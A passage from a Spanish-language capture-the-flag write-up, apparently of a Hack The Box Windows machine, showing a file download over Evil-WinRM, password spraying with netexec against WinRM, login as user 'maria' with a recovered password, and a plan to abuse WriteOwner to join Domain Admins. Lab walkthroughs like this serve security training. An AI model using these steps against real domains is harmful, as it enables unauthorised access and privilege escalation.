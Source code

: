 Ahora vamos a inspeccionar este fichero en nuestra máquina.
```console
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> download Engines.xls
                                        
Info: Downloading C:\Windows\System32\spool\drivers\color\Engines.xls to Engines.xls
                                        
Info: Download successful!
```

Y vemos varias credenciales para este usuario..
![Write-up Image](images/Screenshot_26.png)

Podemos probar estas credenciales con `netexec`
```console
$ nxc winrm 10.129.246.207 -u 'maria' -p credentials.txt 
WINRM       10.129.246.207  5985   JENKINS          [*] Windows 10 / Server 2019 Build 17763 (name:JENKINS) (domain:object.local)
WINRM       10.129.246.207  5985   JENKINS          [-] object.local\maria:d34gb8@
WINRM       10.129.246.207  5985   JENKINS          [-] object.local\maria:0de_434_d545
WINRM       10.129.246.207  5985   JENKINS          [+] object.local\maria:W3llcr4ft3d_4cls (Pwn3d!)
```

Y encontramos que la credencial de `maria` es `W3llcr4ft3d_4cls`

Conseguimos acceso como `maria`
```console
$ evil-winrm -i 10.129.246.207 -u 'maria' -p 'W3llcr4ft3d_4cls'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\maria\Documents> whoami
object\maria
```

## Abusing WriteOwner
Ahora podemos cambiar el propietario del grupo `Domain Admins` para que sea `maria`, para acto seguido asignar a `maria` el privilegio `AddMember` y poder agregarnos a nosotros mismos al grupo `Domain Admins` para convertirnos administradores del dominio.

